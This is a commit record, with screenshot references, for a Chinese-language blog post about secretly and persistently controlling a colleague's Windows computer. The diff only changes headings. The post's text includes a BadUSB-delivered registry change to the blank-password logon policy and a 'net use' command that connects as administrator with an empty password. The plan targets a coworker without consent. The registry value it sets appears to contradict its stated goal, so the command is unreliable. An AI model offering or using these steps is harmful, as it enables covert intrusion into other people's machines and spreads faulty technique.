

Before and after one commit to fenglilinglegeluan/fenglilinglegeluan.github.io, a Jekyll site: the page built from _posts/2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md, in a window 1280 px wide. Shown: the top 849 px of the page, without its empty margins (282-997 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md

````diff
--- a/_posts/2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md
+++ b/_posts/2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md
@@ -4,9 +4,7 @@ title:  net use 低调持久控制同事电脑的奇怪想法
 categories: [Windows,cmd]
 ---
 
-# net use 低调持久控制同事电脑的奇怪想法
-
-## 1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.
+# 1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.
 
 ```cmd
 cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
@@ -14,7 +12,7 @@ cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlan
 
 通过修改这个选项,下一步可以利用 `net use `建立空链接.
 
-## 2 net use
+# 2 net use
 
 ```cmd
 net use \\IP "" /user:administrator
````
